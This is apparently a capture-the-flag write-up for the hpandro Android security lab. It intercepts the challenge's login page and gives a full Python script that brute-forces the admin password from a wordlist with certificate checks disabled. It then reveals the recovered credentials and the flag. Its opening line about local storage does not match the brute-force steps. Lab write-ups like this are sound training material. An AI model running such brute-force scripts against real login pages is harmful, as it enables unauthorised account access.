

The task provided a web view of a webpage within the app, with obvious hints indicating that the solution involves investigating the local storage of the website.

## Step 1: Intercepting the Webpage Link

To access the webpage in a browser, I used HTTP Toolkit to capture the network traffic from the app and locate the webpage link. This led me to the following URL:

**URL: http://hpandro.raviramesh.info/bf.php**


## Step 2: Writing the bruteforce script

```
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

url = "https://hpandro.raviramesh.info/web/password-bruteforce.android"
username = "admin"
wordlist_path = "wordlist.txt"

headers = {
    "Host": "hpandro.raviramesh.info",
    "Cookie": "_gid=GA1.2.1420009170.1730369303; _ga_M1DY5F8QNF=GS1.1.1730465114.8.0.1730465114.60.0.0; _ga=GA1.2.231762434.1730369303; PHPSESSID=5s8evrmc4nhc6uvucu4bqdicvo",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Sec-Ch-Ua": '"Chromium";v="124", "Android WebView";v="124", "Not-A.Brand";v="99"',
    "Sec-Ch-Ua-Mobile": "?1",
    "Sec-Ch-Ua-Platform": "Android",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "https://hpandro.raviramesh.info",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "hpandro.android.security",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "X-Requested-With": "hpandro.android.security",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "https://hpandro.raviramesh.info/web/password-bruteforce.android",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Priority": "u=0, i",
    "Connection": "keep-alive",
}

def attempt_password(password):
    data = {
        "name": username,
        "password": password.strip(),
    }
    
    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        if response.status_code == 200:
            print(f"Attempt with password '{password.strip()}' returned status code {response.status_code}.")
            if "Try" not in response.text:
                print("Request Sent: ", data)
                print("Response Recieved: \n", response.text)
                return True
    except requests.exceptions.RequestException as e:
        print(f"Error sending request with password '{password}': {e}")
    return False

def bruteforce_passwords():
    with open(wordlist_path, "r") as file:
        for password in file:
            if attempt_password(password):
                break

if __name__ == "__main__":
    bruteforce_passwords()
```

On running this script for a while, we get the username as **"admin"** and password as **"hacker"**.



## Flag
The flag is given when you give the right username and password:

**Flag - hpandro{Brute.zf7zoSEUxvXQVfkCOolSx1gtRCAApNwE} **

